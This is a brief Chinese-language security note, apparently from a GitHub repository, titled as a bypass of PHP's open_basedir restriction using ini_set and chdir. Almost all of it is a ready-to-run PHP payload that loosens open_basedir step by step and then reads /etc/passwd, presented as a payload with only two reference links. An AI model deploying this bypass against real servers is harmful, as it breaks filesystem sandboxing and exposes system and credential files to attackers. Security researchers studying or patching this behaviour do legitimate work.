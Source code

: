 # 利用ini_set和chidr绕过open_basedir

#### 参考

- twitter
- https://xz.aliyun.com/t/4720

#### payload

```python
<?php
chdir('subDir');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
$a=file_get_contents('/etc/passwd');
var_dump($a);
```